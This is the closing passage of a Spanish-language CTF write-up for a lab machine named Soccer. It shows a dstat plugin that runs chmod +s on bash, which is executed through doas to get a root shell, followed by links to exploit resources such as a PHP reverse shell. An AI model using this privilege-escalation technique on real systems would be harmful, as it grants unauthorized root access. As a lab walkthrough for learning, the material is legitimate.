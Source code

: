 Dentro pondremos lo siguiente:
```python
import os

os.system('chmod +s /usr/bin/bash')
```

Guardamos, cerramos y antes de probarlo, veamos los permisos de la **Bash**:
```bash
player@soccer:/usr/local/share/dstat$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Ahora activemos el script, pero **CUIDADO**, recuerda que no tenemos permisos como **SUDO**, así que no lo uses. Usaremos el comando **doas**, como lo menciona el mismo blog, pero en otro caso:
* https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/

Activemos el script:
```bash
doas -u root /usr/bin/dstat --exploit
```
Puede que te marque un error, pero revisa que el cambio este aplicado pues deberías ya poder entrar como root.

Ahora veamos los permisos de la **Bash**:
```bash
player@soccer:/usr/local/share/dstat$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Excelente, ya podemos usar la **Bash** como **Root**. Entremos:
```bash
player@soccer:/usr/local/share/dstat$ bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# ls
app  root.txt  run.sql  snap
bash-5.0# cat root.txt
```
¡Listo! Ya tenemos la flag del **Root**.


<br>
<br>
<div style="position: relative;">
 <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
  <button style="position:absolute; left:80%; top:3%; background-color:#444444; border-radius:10px; border:none; padding:4px;6px; font-size:0.80rem;">
   <a href="#Indice">Volver al Índice</a>
  </button>
</div>

* https://github.com/febinrev/tinyfilemanager-2.4.3-exploit
* https://github.com/pentestmonkey/php-reverse-shell
* https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html
* https://linuxhint.com/sql-injection-kali-linux/
* https://kali-linux.net/article/sqlsus/
* https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
* https://github.com/carlospolop/PEASS-ng/releases/tag/20230409
* https://underc0de.org/foro/gnulinux/doas-una-alternativa-a-sudo-simple-ligera-y-segura/
* https://0x1.gitlab.io/exploit/Linux-Privilege-Escalation/
* https://gtfobins.github.io/gtfobins/dstat/
* https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/
* https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-dstat-privilege-escalation/
